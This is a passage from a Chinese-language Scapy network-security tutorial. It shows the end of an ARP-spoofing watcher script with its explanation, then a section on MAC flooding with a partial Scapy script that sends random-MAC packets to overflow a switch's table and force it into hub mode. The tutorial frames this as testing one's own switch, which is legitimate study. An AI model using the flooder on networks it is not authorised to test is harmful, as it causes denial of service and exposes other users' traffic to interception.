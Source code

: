 ```
                                print pkt[ARP].hwsrc + \
                                        " has got new ip " + \
                                        pkt[ARP].psrc + \
                                        " (old " + ip_mac[pkt[ARP].psrc] + ")"
                                ip_mac[pkt[ARP].psrc] = pkt[ARP].hwsrc    

signal(SIGINT, sig_int_handler)    

if len(sys.argv) < 2:
        print sys.argv[0] + " <iface>"
        sys.exit(0)    

try:
        fh = open(arp_watcher_db_file, "r")
except IOError:
        print "Cannot read file " + arp_watcher_db_file
        sys.exit(1)    

for line in fh:
        line.chomp()
        (ip, mac) = line.split(" ")
        ip_mac[ip] = mac    

sniff(prn=watch_arp,
        filter="arp",
        iface=sys.argv[1],
        store=0)

```

开始我们定义了一个信号处理函数`sig_int_handler()`，当用户中断程序时该函数会被调用。该函数会在`ip_mac`字典中，将所有已知的`IP`和`MAC`地址对应关系保存到一个文件当中。一开始我们读取这些`ARP db`文件，用目前已知的所有对应关系来初始化程序，若文件无法读取则退出。然后我们将文件内容一行一行地循环读取，把每一行分割为`IP`和`MAC`地址，将它们保存到`ip_mac`字典中。我们再调用已知的`sniff()`函数，对每一个接收到的`ARP`数据包，调用回调函数`watch_arp`。

`watch_arp`函数是整个程序中的核心逻辑部分。当嗅探到的数据包是`is-at`数据包时，则该数据包为一个`ARP`响应。紧接着我们首先检查IP是否存在于`ip_mac`字典中。如果我们没有发现对应条目，则其为一个新设备，并在屏幕上显示一条信息。否则我们将数据包中的`MAC`地址与字典中的`MAC`相比较，如果不同则响应很可是伪造的，我们也在屏幕上显示一条消息。在这两种情况下，都会用新的信息来更新字典。

0x04 MAC-Flooder
================

* * *

交换机和其他计算机一样，具有有限的内存，交换机中存放`MAC`地址信息的表格也同样如此，该表格记录哪个`MAC`地址对应哪个端口及其内部的`ARP`缓存。当交换机的缓冲区溢出时，它们的反应就会有些古怪。这将会导致交换机拒绝服务，以至于放弃交换行为而变得像正常的集线器。在集线器模式下，整体的高流量不会是你遇到的唯一问题，因此在没有附加操作下，所有已连接的计算机都会接收到完整的流量。你应该测试一下的你的交换机在这种意外情况下是如何反应的，接下来的脚本就可以做到这一点。它会产生随机的`MAC`地址，并将它们发送到你的交换机中，直到交换机的缓冲区被填满。

```
#!/usr/bin/python    

import sys
from scapy.all import *    

packet = Ether(src=RandMAC("*:*:*:*:*:*"),
                        dst=RandMAC("*:*:*:*:*:*")) / \
                        IP(src=RandIP("*.*.*.*"),
                            dst=RandIP("*.*.*.*")) / \
                        ICMP()    

if len(sys.argv) < 2:
        dev = "eth0"
else:
        dev = sys.argv[1]    

print "Flooding net with random packets on dev " + dev    

```